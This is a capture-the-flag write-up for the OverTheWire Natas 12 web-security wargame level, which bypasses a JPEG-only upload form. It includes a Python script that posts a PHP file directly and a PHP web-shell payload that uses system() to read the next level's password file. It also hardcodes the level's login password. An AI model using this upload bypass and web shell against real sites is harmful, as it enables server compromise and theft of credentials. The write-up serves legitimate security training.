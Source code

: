 # Writeup for [Natas 12 - Natas 13](http://natas12.natas.labs.overthewire.org) from [OverTheWire](https://overthewire.org)

We are given an upload form to upload JPEG files.

The expected file for the upload is a JPEG file, but what would happen if we try to upload a `.php` file?

Let's try to upload a simple php file that will just echo some text to the screen.

```bash
echo '<?php echo "Test"; ?>' > test.php
```

Let's try to upload `test.php` to the webapp.

Looks like it spits out an error.

![error](./img/error.png)

It also seems that our filename is being changed to a random filename with a `.jpg` extension everytime we upload.

Looking at the source code we see there are 2 major code blocks that come in to play.

![source](./img/source.png)

The first being the `makeRandomPathFromFilename` which creates a random filename with an extension that is provided with the filename. If we look closely to the bottom, the snippet `value="<? print genRandomString(); ?>.jpg" />` is forcing it so our filename will always end in `.jpg` but we can probably change that if we upload the file directly without going through that piece of code.

The second being that `if(array_key_exists("filename", $_POST)) { ` that will upload our file if we do a `POST` request on the page.

Now let's create a python script that will upload our file directly to the web server.

```python
#!/usr/bin/env python

import requests

url = 'http://natas12.natas.labs.overthewire.org'

user = 'natas12'

pw = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

# Fill out the necessary Form data
data = {
	"filename" : "test.php",
	"MAX_FILE_SIZE" : "1000",
}

# File to upload
files = {
	"uploadedfile" : open('test.php','rb')
}

r = requests.post(url,auth = (user,pw), data = data, files = files )

print(r.text)
```

Looks like we are successful in uploading our file, it preserved the `.php` extension that will hopefully execute on the website.

![success.png](./img/success.png)

It worked! Our php file which simply prints out the word "Test" has successfully been executed on the website.

![poc](./img/poc.png)

Now all we need to do is just create code that will read the next user's password located in `/etc/natas_webpass/natas13`.

This payload will run the `system` function in PHP which will execute shell commands. We'll use this function to read natas13's password.

```bash
echo '<?php system("cat /etc/natas_webpass/natas13"); ?>' > test.php
```

Uploading the file once more with python.

![exploit](./img/exploit.png)

We get the password for natas13.

![password](./img/password.png)
